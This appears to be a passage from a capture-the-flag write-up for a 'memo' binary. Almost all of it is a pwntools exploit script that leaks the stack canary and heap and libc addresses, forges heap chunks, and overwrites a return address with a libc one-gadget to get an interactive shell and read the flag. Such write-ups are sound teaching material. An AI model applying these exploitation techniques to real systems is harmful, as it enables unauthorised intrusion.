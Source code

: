 ```
show_memo()
shell.recv(0x20)

stack_chunk = u64(shell.recv(6) + b"\x00" * 2) - 0x110

delete_memo()
create_memo(b"A" * 0x28, b"no", b"A" * 0x28)
show_memo()
shell.recvuntil(b"A" * 0x28)
shell.recv(1)

canary = u64(b"\x00" + shell.recv(7))

create_memo(b"A" * 0x18, b"no", b"A" * 0x18)
create_memo(b"A" * 0x18, b"no", b"A" * 0x17)
show_memo()
shell.recvuntil(b"A" * 0x18)
shell.recv(1)

heap = u64(b"\x00" + shell.recv(3).ljust(7, b"\x00"))

create_memo(b"A" * 0x18, b"no", b"A" * 0x8 + p64(0x91) + b"A" * 0x8)
create_memo(b"A" * 0x7 + b"\x00", b"no", b"A" * 0x8)
create_memo(b"A" * 0x7 + b"\x00", b"no", b"A" * 0x8)
create_memo(b"A" * 0x7 + b"\x00", b"no", b"A" * 0x8)
create_memo(b"A" * 0x7 + b"\x00", b"no", b"A" * 0x8 + p64(0x31))
create_memo(b"A" * 0x7 + b"\x00", b"no", b"A" * 0x8)

tap_out(b"no\x00" + b"A" * 21 + p64(heap + 0xe0))
delete_memo()
tap_out(b"no\x00" + b"A" * 21 + p64(heap + 0xc0))
delete_memo()
show_memo()

leak = u64(shell.recv(6).ljust(8, b"\x00"))
libc = leak - 0x3c4b78

create_memo(b"A" * 0x28, b"no", b"A" * 0x10 + p64(0x0) + p64(0x21) + p64(stack_chunk))
create_memo(p64(leak) * (0x28 // 8), b"no", b"A" * 0x28)
create_memo(b"A" * 0x8 + p64(0x21) + p64(stack_chunk + 0x18) + b"A" * 0x8 + p64(0x21), "yes", b"")  
create_memo(b"A" * 0x8, b"no", p64(canary) + b"A" * 0x8 + p64(libc + 0x45216))

tap_out(b"yes\x00")

shell.recvline()
shell.interactive()
```

  

When we execute it we get a shell like `memo`and in its home we can see the`flag`
